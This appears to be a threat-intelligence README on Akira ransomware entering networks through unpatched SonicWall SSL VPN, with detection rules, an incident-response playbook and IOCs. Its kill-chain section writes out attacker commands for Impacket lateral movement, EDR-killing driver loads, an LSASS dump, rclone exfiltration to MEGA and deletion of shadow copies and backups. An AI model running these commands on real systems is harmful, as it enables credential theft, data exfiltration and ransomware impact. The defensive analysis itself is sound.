

# Akira ransomware × SonicWall SSL VPN — CVE-2024-40766 smash-and-grab with sub-4h dwell (Arctic Wolf 2025-2026 resurgence + CISA AA24-109A)

## TL;DR

Arctic Wolf re-published a sustained advisory on the **Akira × SonicWall SSL VPN** intrusion pattern in late 2025 with multiple confirmation rounds through Q1-Q2 2026, building on the CISA / FBI joint advisory **AA24-109A** that first formalised the Akira tradecraft. The vector is the SonicWall SSL VPN endpoint left unpatched against **CVE-2024-40766** (improper access control in SonicOS management plane and SSL VPN). Once authenticated through the VPN — typically from a VPS in **Hetzner / OVH / Choopa-Vultr / M247 / Frantech** ranges — the operator performs a textbook smash-and-grab in under four hours, with several recorded engagements completing in **~88 minutes** from VPN authentication to mass encryption. Tradecraft is conservative: Impacket SMB recon, LSASS dump via `comsvcs.dll!MiniDump`, `AdFind` and `SharpHound` for AD enumeration, **RustDesk / AnyDesk** for redundant RMM persistence, `rclone` to MEGA / S3 / WebDAV (and `WinSCP` to attacker-controlled SFTP) for exfil, BYOVD via `truesight.sys` / `zam64.sys` / `gmer64.sys` / `rentdrv2.sys` to neuter the EDR before encryption, and finally an Akira encryptor build that runs on Windows, Linux and ESXi (with explicit `--vmonly`, `--stopvm`, `--encryption_percent` and `--no-snapshot-deletion` operator flags). Cluster aliasing: **Akira = Storm-1567 (Microsoft) = Howling Scorpius (Unit 42) = Punk Spider (CrowdStrike) = Gold Sahara (Secureworks)**. The pedagogical anchor is unflattering for any defender that still treats SonicOS patching as an isolated maintenance event: a SonicOS upgrade alone does **not** rotate VPN credentials nor reseed TOTP — operators routinely return on the same accounts after the patch lands.

## Attribution and confidence

- **Cluster (multi-vendor aliases):** **Akira = Storm-1567 (Microsoft) = Howling Scorpius (Unit 42) = Punk Spider (CrowdStrike) = Gold Sahara (Secureworks)**. The aliases all converge on the same operator family, which derives lineage from the Conti diaspora (operators, tooling and tradecraft overlap with Conti and BlackByte) and operates from the broader Russian-speaking e-crime ecosystem.
- **Confidence:**
  - **high** on the cluster — every major CTI vendor has independently observed and named the same operator pattern, and the encryptor build genealogy (Megazord Rust, Akira C++, Akira v2 with `.akiranew` / `.aki`) is documented at the assembly level.
  - **high** on the SonicWall vector — Arctic Wolf and Huntress have published forensic timelines showing CVE-2024-40766 as the entry primitive, with SonicWall PSIRT confirming the CVE class and the credential-rotation requirement post-patch.
  - **medium** on any specific affiliate identity for an individual intrusion — affiliates rotate, share toolchains and resell access; the brand is the durable unit of attribution.
- **Vendor that discovered:** Arctic Wolf (sustained 2025-2026 advisory series), Huntress (IR write-ups), CISA AA24-109A (joint US advisory), Unit 42 (alias and tooling), Microsoft Threat Intelligence (Storm-1567 telemetry), SonicWall PSIRT (CVE coordination).
- **Victimology:** highly varied — construction, engineering, manufacturing, healthcare, MSPs and public-sector entities operating SonicWall SSL VPN appliances. The vector is the appliance, not the sector; victim selection is exposure-driven.
- **Genealogy / link with previous repo cases:** none direct. Conceptually adjacent to Day 1 (The Gentlemen + GPO) — both are Russian-speaking e-crime RaaS / RaaS-adjacent operators, but Akira's signature primitive is **edge-device VPN exploitation**, not GPO weaponisation. Compare encryption-class choices with Day 4 (VECT 2.0 ChaCha20 broken) and Day 1 (The Gentlemen X25519+XChaCha20).

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1133, T1190, T1078 | SonicWall SSL VPN with CVE-2024-40766 unpatched + valid local credential (often pre-2024 user not rotated after patch) |
| Brute-force / fallback | T1110 | Password spray / TOTP retry when valid creds are partial |
| Discovery | T1046 | Impacket port-scan + SMB enumeration from VPN-allocated client IP |
| Execution + Defense Evasion | T1059.001, T1059.003 | PowerShell + cmd; BYOVD via `truesight.sys`, `zam64.sys`, `gmer64.sys`, `rentdrv2.sys` to kill EDR |
| Credential Access | T1003.001, T1558.003 | LSASS dump via `comsvcs.dll!MiniDump`; Kerberoasting via `Rubeus.exe kerberoast` |
| Lateral Movement | T1021.002, T1021.001 | Impacket `smbexec` / `psexec` / `wmiexec`; RDP via captured Kerberos tickets |
| Persistence + Remote Access | T1219 | RustDesk + AnyDesk dual-RMM redundancy; MobaXterm for SSH lateral |
| Command and Control | T1572 | Cloudflare Tunnel (`cloudflared.exe`), ngrok or direct VPS reverse-tunnel |
| Exfiltration | T1567.002 | `rclone copy ... mega:/<bucket>` or WebDAV / S3; `WinSCP.exe` for SFTP exfil |
| Impact | T1490, T1486, T1485 | `vssadmin delete shadows`, `wbadmin delete catalog`, `bcdedit /set ... recoveryenabled no`; Akira encryptor on Windows + Linux + ESXi |



The diagram shows the corporate environment on the left (SonicWall appliance, internal AD, file servers and ESXi cluster) and the attacker-side VPS + RMM + MEGA / WebDAV exfil cluster on the right. The bidirectional arrow from stage 2 (VPN login from VPS) onward represents the SOCKS-style channel the operator uses for the rest of the smash-and-grab. Detection anchors at the bottom map to the three Sigma rules (partial encryption indicators; LSASS via `comsvcs.dll`; SonicWall VPN from VPS to internal SMB), two KQL rules (SonicWall VPN anomalous login by ASN baseline; Akira recon Impacket SMB burst), one YARA rule for the C++ encryptor (plus the Linux / ESXi variant) and one Suricata rule for the SonicWall recon pattern.

## Stage-by-stage detail

### Initial Access — SonicWall SSL VPN with CVE-2024-40766

The defining primitive: a SonicWall appliance running an unpatched SonicOS firmware version against **CVE-2024-40766** (improper access control in the SonicOS management interface and the SSL VPN authentication flow). Even where the appliance has been patched, **local user passwords and TOTP seeds are not rotated by the firmware upgrade** — so accounts that existed before the patch remain accessible with the same credentials after the patch. Arctic Wolf documented a persistent pattern of operators returning on the same VPN account days or weeks after the operator's first foothold, simply because the post-patch remediation skipped the credential reset. MITRE: `T1133`, `T1190`, `T1078`.

Operator-side authentication source: a VPS allocated from **Hetzner (AS24940)**, **OVH (AS16276)**, **Choopa / Vultr (AS20473)**, **M247 (AS9009)** or **Frantech / BuyVM (AS53667)**. The KQL rule in this folder anchors on this baseline: a SonicWall VPN login from any of those ASNs into an account whose 30-day baseline does not include those ASNs is a high-precision signal.

### Discovery

Once authenticated, the operator's VPN-allocated client IP runs Impacket from a Linux jump host:

```bash
# From the VPS — through the VPN tunnel
proxychains4 -q nmap -Pn -p 22,135,139,445,3389,5985,5986 -sS -T3 <internal_cidr>
proxychains4 -q python3 /opt/impacket/examples/lookupsid.py <domain>/<user>:'<pw>'@<dc>
proxychains4 -q python3 /opt/impacket/examples/GetADUsers.py -all <domain>/<user>:'<pw>' -dc-ip <dc>
proxychains4 -q python3 /opt/impacket/examples/Findexec.py ...
```

MITRE: `T1046`.

### Execution + Defense Evasion — BYOVD

Pre-encryption, the operator kills EDR via Bring Your Own Vulnerable Driver. Known driver set in the Akira affiliate pool:

| Driver | Origin | Purpose |
|---|---|---|
| `truesight.sys` | RogueKiller — KEV-listed | Arbitrary process kill in kernel — defeats EDR self-protection |
| `zam64.sys` | Zemana AntiMalware | Process-handle revocation |
| `gmer64.sys` | GMER rootkit utility | Direct kernel callbacks manipulation |
| `rentdrv2.sys` | RentDrv2 | Shared with DragonForce; arbitrary memory R/W |

```cmd
sc.exe create truesight binPath= C:\ProgramData\truesight.sys type= kernel start= demand
sc.exe start truesight
.\zer0.exe -KillEDR -ProcessName "MsMpEng.exe"
```

MITRE: `T1059.001`, `T1059.003`, `T1562.001` (covered implicitly via the BYOVD primitive).

### Credential Access

LSASS dump via the well-known `comsvcs.dll!MiniDump` LOLBin (Sigma rule `lsass_dump_via_comsvcs.yml`):

```cmd
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID_lsass> C:\ProgramData\dump.bin full
```

Kerberoasting via Rubeus or the Impacket `GetUserSPNs.py` script — TGS for service accounts with weak SPN passwords cracked offline with hashcat (`-m 13100`). MITRE: `T1003.001`, `T1558.003`.

### Lateral Movement

Impacket scripts run via the SOCKS / VPN proxy:

```bash
proxychains4 -q python3 /opt/impacket/examples/smbexec.py <domain>/<user>:'<pw>'@<target>
proxychains4 -q python3 /opt/impacket/examples/wmiexec.py <domain>/<user>:'<pw>'@<target>
proxychains4 -q python3 /opt/impacket/examples/psexec.py <domain>/<user>:'<pw>'@<target>
```

RDP via captured Kerberos tickets where `RestrictedAdmin` allows network-mode logon. MITRE: `T1021.002`, `T1021.001`.

### Persistence + Remote Access — dual RMM

The operator deploys **RustDesk** as the primary RMM and **AnyDesk** as the redundant backup, often on different hosts so a single host wipe does not lose access. MobaXterm is staged on a Linux jump for SSH lateral pivot. MITRE: `T1219`.

### Command and Control

- **Cloudflare Tunnel** (`cloudflared.exe`) is the preferred outbound primitive — looks like a CDN-bound HTTPS session and inherits Cloudflare's TLS posture and reputation.
- **ngrok** is a fallback for hosts where Cloudflare account hygiene is poor.
- **Direct reverse tunnel to the VPS** is the third option when neither commercial primitive is desirable.

MITRE: `T1572`.

### Exfiltration

```cmd
rclone.exe copy \\fileserver\share mega:/<bucket> --transfers=32 --multi-thread-streams=8 ^
    --config C:\ProgramData\rc.conf
```

`WinSCP.exe` is the SFTP alternative when MEGA is undesirable. MITRE: `T1567.002`.

### Impact — Akira encryptor

The operator chooses among the build variants:

- **Akira C++ (Windows)** — `.akira` extension, ChaCha20 file body + RSA-4096 key wrapping, supports `--encryption_percent <0-100>` partial encryption (default 50%), `--encryption_path` scope, `--share_file` to drive across SMB shares without on-host execution.
- **Akira_v2 (.akiranew / .aki)** — same crypto, refactored loader.
- **Megazord (Rust, `.powerranges`)** — historical 2023-2024 build, less common in 2026.
- **Akira Linux / ESXi** — supports `--vmonly` (only encrypt VMDK / VMX), `--stopvm` (pre-shutdown ESXi VMs to release file handles), `--no-snapshot-deletion` (operator flag for cases where the negotiation strategy needs intact snapshots).

Pre-encryption housekeeping is standard:

```cmd
vssadmin delete shadows /all /quiet
wbadmin delete catalog -quiet
bcdedit /set {default} recoveryenabled no
bcdedit /set {default} bootstatuspolicy ignoreallfailures
wmic shadowcopy delete
```

Ransom note `akira_readme.txt` lands at the root of every encrypted share with the negotiation onion. MITRE: `T1490`, `T1486`, `T1485`.

## RE notes

| Component | Lang / build | Notes |
|---|---|---|
| Akira C++ encryptor | C++, MSVC, statically linked libsodium / OpenSSL | ChaCha20 file body + RSA-4096 key wrap; `--encryption_percent` operator flag drives partial-encryption mode; embeds RSA public key per build; no master-key server-side — affiliate handles keys |
| Akira_v2 (`.akiranew` / `.aki`) | C++, refactored loader | Same crypto, modernised CLI; better Defender ASR evasion |
| Megazord | Rust | Historical variant from late 2023; `.powerranges` extension; encountered rarely in 2026 |
| Akira Linux / ESXi | C++, ELF | `--vmonly`, `--stopvm`, `--no-snapshot-deletion`; targets ESXi datastore VMDKs |

Reverser pointers:

- **`--encryption_percent` is the most discriminating CLI string** when triaging a captured sample — present in every modern Akira build, absent in look-alikes.
- **`akira_readme.txt`** filename is reused across affiliate runs and across build variants; useful filename anchor for YARA.
- **ChaCha20 + RSA-4096** means there is **no crypto-bug shortcut** to decryption. Recovery without paying depends on backup hygiene.
- **No DGA, no fronted CDN.** C2 is a flat list of RMM portals (RustDesk / AnyDesk relays) and the operator's VPS. Detection is by-process and by-egress shape, not by domain reputation.

## Detection strategy

### Telemetry that matters

- **SonicWall SSL VPN auth logs** — every successful login, the source ASN, the username, the second-factor mode. The KQL rule baselines a per-user ASN profile and alerts on first-seen.
- **Defender XDR / Sentinel `DeviceLogonEvents`** — VPN-tunnelled logons to internal hosts; cross-reference with `DeviceNetworkEvents` for Impacket port-scan signatures.
- **Sysmon EID 1** — `rundll32.exe ... comsvcs.dll, MiniDump` (LSASS dump); `cloudflared.exe` or `ngrok.exe` execution; `rclone.exe` / `WinSCP.exe` execution.
- **Sysmon EID 6** (driver load) for BYOVD candidates `truesight.sys` / `zam64.sys` / `gmer64.sys` / `rentdrv2.sys` outside `%SystemRoot%\System32\drivers\`.
- **Sysmon EID 11 (file_event)** — creation of `akira_readme.txt` anywhere on the fleet; `.akira` / `.akiranew` / `.aki` extension creation in burst.
- **Defender XDR `DeviceFileEvents`** — `vssadmin delete shadows` execution + 25 `.akira` extension writes in 5 minutes = `T1486 + T1490` correlation.
- **Network — egress to MEGA (`*.mega.nz`, `*.mega.co.nz`) from a fileserver or AD host** is high-signal for exfil.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/akira_partial_encryption_indicators.yml`](./sigma/akira_partial_encryption_indicators.yml) | `vssadmin delete shadows` + `bcdedit recoveryenabled no` + Akira-class ransom note name within a 5-minute window |
| Sigma | [`sigma/lsass_dump_via_comsvcs.yml`](./sigma/lsass_dump_via_comsvcs.yml) | `rundll32.exe ... comsvcs.dll, MiniDump <pid> <out>` |
| Sigma | [`sigma/sonicwall_vpn_login_from_vps_to_internal_smb.yml`](./sigma/sonicwall_vpn_login_from_vps_to_internal_smb.yml) | SonicWall VPN login from VPS ASN list followed by SMB recon from VPN-allocated IP |
| KQL (Sentinel / Defender XDR) | [`kql/sonicwall_vpn_anomalous_login.kql`](./kql/sonicwall_vpn_anomalous_login.kql) | Per-user ASN baseline (30 days) — alert on first-seen Hetzner / OVH / Vultr / M247 / BuyVM login |
| KQL | [`kql/akira_recon_impacket_smb_burst.kql`](./kql/akira_recon_impacket_smb_burst.kql) | VPN-allocated IP creating multiple `IPC$` named-pipe sessions across the AD VLAN in <5 min |
| YARA | [`yara/Akira_Cpp_Encryptor_2026.yar`](./yara/Akira_Cpp_Encryptor_2026.yar) | PE + `--encryption_percent` / `--share_file` / `akira_readme.txt` strings + ChaCha20 constants + RSA-4096 OAEP |
| YARA | [`yara/Akira_Linux_ESXi_Encryptor.yar`](./yara/Akira_Linux_ESXi_Encryptor.yar) | ELF + `--vmonly` / `--stopvm` / `--no-snapshot-deletion` + Akira-class CLI banner |
| Suricata | [`suricata/sonicwall_cve_2024_40766_recon.rules`](./suricata/sonicwall_cve_2024_40766_recon.rules) | sids — SonicOS management-plane probing pattern + SSL VPN auth replay shape |
| Hunt | [`hunts/peak_h1_h2_h3.md`](./hunts/peak_h1_h2_h3.md) | PEAK H1 ASN-anomaly VPN login; H2 RustDesk + AnyDesk dual install; H3 vssadmin + .akira extension burst |

### Threat hunting hypotheses

- **H1 — SonicWall VPN login from VPS-class ASN.** Per-user 30-day ASN baseline. Alert on first-seen Hetzner / OVH / Vultr / M247 / BuyVM. Expected benign: a remote employee on holiday using a cloud-hosted VPN aggregator (rare in disciplined enterprises). Suspect: a SonicWall VPN login from one of those ASNs followed by Impacket port-scan or SMB enumeration within 30 minutes.
- **H2 — RustDesk + AnyDesk dual install on the same fleet within 24h.** No legitimate use case puts two RMMs on different production hosts within a day. Pull `DeviceProcessEvents` filtering on the binary names and the install paths.
- **H3 — `vssadmin delete shadows` followed by 25+ `.akira` / `.akiranew` / `.aki` extension creates on the same host within 5 minutes.** This is the encryptor's deterministic precursor → encryption transition. Alerting on this catches the ransomware before it spreads via SMB from this host to its neighbours.

## Incident response playbook

### First 60 minutes (triage)

1. **Disable the SonicWall SSL VPN** (`config / vpn / disable`) and force a session reset on the appliance. Pull the running config and SSL VPN logs.
2. **Identify the operator's VPN account.** Look for the per-user ASN-anomaly hit in the KQL rule output. Suspend that account in AD + SonicWall + the federated IdP. **Reset its password and reseed its TOTP** — patching the appliance does not do this.
3. **Block egress** to MEGA + the operator's RustDesk / AnyDesk relays + Cloudflare Tunnel endpoint that the operator's `cloudflared.exe` is using.
4. **Capture RAM** on at least one Akira-touched host before reboot. Encryptor build IDs, RSA public-key blob and partial encryption state live there.
5. **Snapshot** the SonicWall appliance config plus the running `/var/log/messages` and the `/sonicos/logs/` directory.
6. **`krbtgt` double rotation** with a 10-hour gap if Domain Admin was observed in `4624` after T0.
7. **Do NOT power off** any encrypted host before RAM capture — the partial-encryption progress and any in-flight per-file ChaCha20 state lives only in memory.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| SonicWall config + SSL VPN log | appliance management plane | SonicOS export | Operator's VPN account name + TOTP timestamps |
| Full memory dump | host RAM | WinPMem / DumpIt | Encryptor build ID + partial encryption progress + per-host RSA blob |
| Endpoint Sysmon | `%windir%\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx` | EvtxECmd | EID 1 / 6 / 11 — encryptor + BYOVD + ransom note write |
| DC Security log | `%windir%\System32\winevt\Logs\Security.evtx` | EvtxECmd | 4624 / 4672 / 4769 — operator AD activity |
| RustDesk / AnyDesk logs | `%APPDATA%\AnyDesk\connection_trace.txt`; RustDesk `%ProgramData%\RustDesk\` | manual | Operator-side IDs and timestamps |
| `rclone.exe` config | `C:\ProgramData\rc.conf` | manual | MEGA / S3 / WebDAV bucket coordinates |
| `cloudflared.exe` config | `%PROGRAMDATA%\cloudflared\config.yml` | manual | Tunnel ID + remote hostname |
| Encryptor binary + ransom note | wherever it landed | manual | Encryptor SHA256 + build flags from CLI strings |
| MFT + `$UsnJrnl:$J` | `\\?\C:\$MFT` + `\\?\C:\$Extend\$UsnJrnl:$J` | MFTECmd | Encryption start time + file-rename timeline |
| Defender XDR `DeviceLogonEvents` | tenant | KQL export | VPN logon ASN history per user |

### IR queries and commands

```kql
// Per-user SonicWall ASN anomaly — Sentinel
let baseline =
    SecurityEvent
    | where TimeGenerated between (ago(30d) .. ago(1d))
    | where EventID == 4624 and LogonType == 10
    | where Account has "vpn"
    | extend ASN_30d = tostring(parse_ipv4_mask(IpAddress, 32))
    | summarize asns = make_set(ASN_30d) by Account;
SecurityEvent
| where TimeGenerated > ago(24h)
| where EventID == 4624 and LogonType == 10 and Account has "vpn"
| join kind=leftouter baseline on Account
| where not(IpAddress in (asns))
| project TimeGenerated, Account, IpAddress, asns
```

```cmd
:: Confirm BYOVD presence on a candidate host
sc.exe query | findstr /i "truesight zam64 gmer64 rentdrv2"
fltmc instances | findstr /i "truesight zam64 gmer64 rentdrv2"
```

```bash
# Volatility 3 — netscan + malfind on the captured RAM image
vol -f mem.raw windows.netscan.NetScan | grep -E '(mega|rustdesk|anydesk|cloudflared)'
vol -f mem.raw windows.malfind.Malfind
vol -f mem.raw windows.cmdline.CmdLine | grep -E 'encryption_percent|share_file|vmonly|stopvm'
```

### Containment, eradication, recovery

- **Containment.** Block egress to MEGA + RustDesk / AnyDesk relays + Cloudflare Tunnel endpoint; suspend the VPN account; reset its password + reseed TOTP; lock the SonicWall management interface to a single jump host; rotate `krbtgt` twice; revoke service-ticket TGS observed in the 4769 burst.
- **Eradication.** Reimage every encrypted host; reimage hosts that ran the Akira binary even if not encrypted; restore from immutable backups only. Patch SonicOS to the latest firmware, then **rotate every local SonicWall user password and reseed every TOTP**.
- **Recovery.** Stand up a clean SonicWall management plane; consider replacing the SSL VPN aggregator with a zero-trust access broker (Cloudflare Access / Tailscale / ZTNA-class) where feasible. Monitor at elevated cadence for 90 days. Ban the VPS-source ASN list at SonicWall + IdP unless there is a documented business reason.
- **What NOT to do.**
  - Do **not** assume the SonicOS firmware patch resets credentials. It does not.
  - Do **not** trust a backup taken during the dwell window — assume it was tampered.
  - Do **not** pay the ransom without legal advice and OFAC sanction screening.
  - Do **not** skip the BYOVD driver removal — the operator's `truesight.sys` / `zam64.sys` etc. service entry must be deleted and the driver file removed.
  - Do **not** restore SAM / NTDS before rotating `krbtgt` twice.

### Recovery validation

- Seven days without new SonicWall SSL VPN logins from any VPS-class ASN against any account.
- Seven days without RustDesk / AnyDesk install events on the fleet.
- Seven days without `.akira` / `.akiranew` / `.aki` extension creation events.
- `krbtgt` rotated twice with a 10-hour gap; every SonicWall local user password rotated; every TOTP reseed completed.
- Defender XDR + EDR telemetry back to baseline volumes.
- Backup validation pass on a clean-room replica.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| cve | CVE-2024-40766 | SonicOS improper access control (management + SSL VPN) | high | SonicWall PSIRT |
| asn | AS24940 | Hetzner — frequent VPS source for Akira VPN logins | medium | Arctic Wolf |
| asn | AS16276 | OVH — frequent VPS source | medium | Arctic Wolf |
| asn | AS20473 | Choopa / Vultr — frequent VPS source | medium | Arctic Wolf |
| asn | AS9009 | M247 — frequent VPS source | medium | Arctic Wolf |
| asn | AS53667 | Frantech / BuyVM — frequent VPS source | medium | Arctic Wolf |
| file | `akira_readme.txt` | Ransom note filename | high | CISA AA24-109A |
| file | `truesight.sys` | BYOVD driver — kill EDR | high | CISA AA24-109A |
| file | `zam64.sys` | BYOVD driver (Zemana AntiMalware) | high | Industry IR observation |
| file | `gmer64.sys` | BYOVD driver (GMER rootkit utility) | high | Industry IR observation |
| file | `rentdrv2.sys` | BYOVD driver (RentDrv2) — shared DragonForce + Akira | high | Industry IR observation |
| tool | `rclone.exe` | Exfiltration to MEGA / S3 / WebDAV | high | CISA AA24-109A |
| tool | `WinSCP.exe` | Exfiltration to attacker-controlled SFTP | high | Multiple IR |
| tool | `AnyDesk` | RMM persistence | high | CISA AA24-109A |
| tool | `RustDesk` | RMM persistence (primary) | high | CISA AA24-109A |
| tool | `MobaXterm` | SSH lateral persistence | medium | CISA AA24-109A |
| tool | `cloudflared.exe` | Cloudflare Tunnel C2 | medium | Industry IR observation |
| tool | `ngrok.exe` | C2 tunneling fallback | medium | Industry IR observation |
| cmd | `vssadmin delete shadows /all /quiet` | Pre-encryption shadow delete | high | CISA AA24-109A |
| cmd | `wbadmin delete catalog -quiet` | Backup catalog delete | high | CISA AA24-109A |
| cmd | `bcdedit /set {default} recoveryenabled no` | Disable Windows recovery | high | CISA AA24-109A |
| cli_flag | `--encryption_path` | Akira encryptor scope | high | Unit 42 |
| cli_flag | `--share_file` | Akira encryptor share-list intake | high | Unit 42 |
| cli_flag | `--encryption_percent` | Akira partial encryption | high | Unit 42 |
| cli_flag | `--no-snapshot-deletion` | Akira affiliate flag | high | Unit 42 |
| cli_flag | `--vmonly` | Akira Linux / ESXi scope | high | Unit 42 |
| cli_flag | `--stopvm` | Akira Linux / ESXi pre-shutdown | high | Unit 42 |
| extension | `.akira` | Encrypted file extension (Windows) | high | CISA AA24-109A |
| extension | `.akiranew` | Akira_v2 variant | medium | CISA AA24-109A |
| extension | `.aki` | Akira_v2 variant | medium | CISA AA24-109A |
| extension | `.powerranges` | Megazord (Rust) — historical | medium | CISA AA24-109A |
| alias | Storm-1567 | Microsoft alias for Akira | high | Microsoft |
| alias | Howling Scorpius | Unit 42 alias | high | Unit 42 |
| alias | Punk Spider | CrowdStrike alias | high | CrowdStrike |
| alias | Gold Sahara | Secureworks alias | high | Secureworks |
| note | No single-sample SHA256 in this folder | Build IDs change per affiliate run | — | — |
| note | SonicOS upgrade alone does NOT rotate credentials nor reseed TOTP | Required as part of remediation | — | — |

Full list lives in [`iocs.csv`](./iocs.csv).

## Secondary findings

- **Storm-1175 → Medusa via GoAnywhere CVE-2025-10035 and SmarterMail CVE-2026-23760 (Microsoft Threat Intelligence, April 2026).** Pivot pattern via web-facing assets into a Medusa ransomware deployment. Adjacent e-crime tradecraft for affiliate hand-off comparison.
- **Mandiant M-Trends 2026.** 22-second access hand-off from initial access broker to operator; systematic recovery-denial ransomware against backups, identity infrastructure and virtualisation hosts. Baseline this against Akira's <4h smash-and-grab to size IR SLA expectations.
- **CISA KEV (recurring).** SimpleHelp CVE-2024-57726 / -57728 (DragonForce precursor — same access-broker market segment that feeds Akira); D-Link DIR-823X Mirai variant `tuxnokill`; Cisco Catalyst SD-WAN Manager batch. Patch fleet-wide.

## Pedagogical anchors

- **Patching the appliance is not credential rotation.** SonicOS firmware updates leave existing local users and TOTP seeds intact. Treat every SonicOS patch as the *start* of remediation, not the end.
- **A per-user VPN ASN baseline is one of the highest-yield identity controls of 2026.** A construction or healthcare workforce does not log in from Hetzner / OVH / Vultr / M247 / BuyVM. Build the baseline once; reuse it forever.
- **Dual-RMM presence (RustDesk + AnyDesk) is a near-zero-FP precursor.** No legitimate operations program installs two RMMs on different production hosts within 24h.
- **`comsvcs.dll!MiniDump` remains the cleanest LSASS dump LOLBin in 2026.** Tune narrowly for the explicit command line — `rundll32.exe ... comsvcs.dll, MiniDump <pid> <out>` — and you get a high-precision detection with low FP surface.
- **BYOVD is a kernel-callback problem, not a file-on-disk problem.** Maintain Microsoft's Vulnerable Driver Blocklist enforcement; alert on any driver load outside `%SystemRoot%\System32\drivers\` that matches a known BYOVD hash.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This case write-up |
| [`kill_chain.svg`](./kill_chain.svg) | Akira × SonicWall kill-chain diagram, light / dark adaptive |
| [`iocs.csv`](./iocs.csv) | Machine-readable IOC list |
| [`sigma/akira_partial_encryption_indicators.yml`](./sigma/akira_partial_encryption_indicators.yml) | Sigma — Akira partial encryption indicators |
| [`sigma/lsass_dump_via_comsvcs.yml`](./sigma/lsass_dump_via_comsvcs.yml) | Sigma — LSASS dump via `comsvcs.dll!MiniDump` |
| [`sigma/sonicwall_vpn_login_from_vps_to_internal_smb.yml`](./sigma/sonicwall_vpn_login_from_vps_to_internal_smb.yml) | Sigma — SonicWall VPN login from VPS to internal SMB |
| [`kql/sonicwall_vpn_anomalous_login.kql`](./kql/sonicwall_vpn_anomalous_login.kql) | KQL — SonicWall VPN per-user ASN baseline anomaly |
| [`kql/akira_recon_impacket_smb_burst.kql`](./kql/akira_recon_impacket_smb_burst.kql) | KQL — Akira recon Impacket SMB burst pattern |
| [`yara/Akira_Cpp_Encryptor_2026.yar`](./yara/Akira_Cpp_Encryptor_2026.yar) | YARA — Akira C++ Windows encryptor |
| [`yara/Akira_Linux_ESXi_Encryptor.yar`](./yara/Akira_Linux_ESXi_Encryptor.yar) | YARA — Akira Linux / ESXi encryptor with `--vmonly` / `--stopvm` |
| [`suricata/sonicwall_cve_2024_40766_recon.rules`](./suricata/sonicwall_cve_2024_40766_recon.rules) | Suricata 7.x — SonicOS recon pattern |
| [`hunts/peak_h1_h2_h3.md`](./hunts/peak_h1_h2_h3.md) | PEAK hunts H1 ASN anomaly, H2 dual RMM, H3 vssadmin + extension burst |

## Sources

- [Arctic Wolf — Akira × SonicWall smash-and-grab, sustained 2025-2026 advisory](https://arcticwolf.com/resources/blog/akira-sonicwall-smash-and-grab/)
- [CISA AA24-109A — #StopRansomware: Akira ransomware (joint US advisory)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-109a)
- [SonicWall PSIRT — SNWLID-2024-0015 (CVE-2024-40766)](https://psirt.global.sonicwall.com/vuln-detail/SNWLID-2024-0015)
- [Unit 42 — Howling Scorpius / Akira tooling and CLI](https://unit42.paloaltonetworks.com/howling-scorpius-akira-ransomware/)
- [Microsoft Threat Intelligence — Storm-1567 telemetry](https://www.microsoft.com/en-us/security/blog/topic/threat-intelligence/)
- [Huntress — Akira post-SonicWall intrusion timeline](https://www.huntress.com/blog/akira-ransomware-sonicwall-intrusion-timeline)
- [MITRE ATT&CK — Akira](https://attack.mitre.org/software/S1129/)
- [MITRE ATT&CK — T1133 External Remote Services](https://attack.mitre.org/techniques/T1133/)
- [MITRE ATT&CK — T1219 Remote Access Software](https://attack.mitre.org/techniques/T1219/)
